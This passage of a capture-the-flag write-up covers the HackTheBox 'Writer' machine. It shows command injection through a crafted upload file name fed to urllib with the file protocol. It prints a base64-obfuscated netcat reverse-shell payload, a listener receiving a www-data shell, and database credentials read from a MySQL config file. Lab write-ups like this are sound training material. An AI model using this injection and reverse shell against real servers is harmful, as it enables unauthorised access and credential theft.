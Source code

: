 Code 

{% highlight python %}
import urllib  
import os  
from flask import request  
  
local_filename, headers = urllib.request.urlretrieve('http\://10.10.15.80/.jpg/1.jpg\;sleep')  
print("The local_filename is", local_filename)  
os.system("mv {} {}.jpg".format(local_filename, local_filename))
{% endhighlight %}

Observe the argument of the urllib.request.urlretrieve() function. The user is in control of this argument. If a user were to upload a file called 1.jpg\;sleep, then the server will behave accordingly\:

  
Response

The local_filename is /tmp/tmpen3ya1q1

However, when changing the argument to be file\:///home/0xd4y/business/hackthebox/medium/linux/writer/www/.jpg/1.jpg\;sleep 10, then command execution is performed. This works because the urllib function does not correctly rename the file to something safe in the instance that the argument is using the file protocol. Therefore, a file with a malicious name can be uploaded using the image parameter, and this file can then be referenced locally via the file protocol.

### Reverse Shell

After uploading a file with the name \`0xd4y.jpg\;echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuODAgOTAwMSA+L3RtcC9m|base64 -d|bash\`, it was referenced locally by putting the following in the image_url parameter\: file\:///var/www/writer.htb/writer/static/img/0xd4y.jpg\;\`echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuODAgOTAwMSA+L3RtcC9m|base64 -d|bash\`. A reverse shell was then returned as the www-data user\:

{% highlight bash %}
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]└──╼ $nc -lvnp 9001  
listening on [any] 9001 ...  
connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 59938  
/bin/sh\: 0\: can't access tty\; job control turned off  
$ whoami  
www-data
{% endhighlight %}

Privilege Escalation
--------------------

### Kyle

After enumerating multiple files in the box, it was found that there is a username and password in a mysql config file called /etc/mysql/my.cnf that points to the dev database\:

database = devuser = djangouser  
password = DjangoSuperPassword
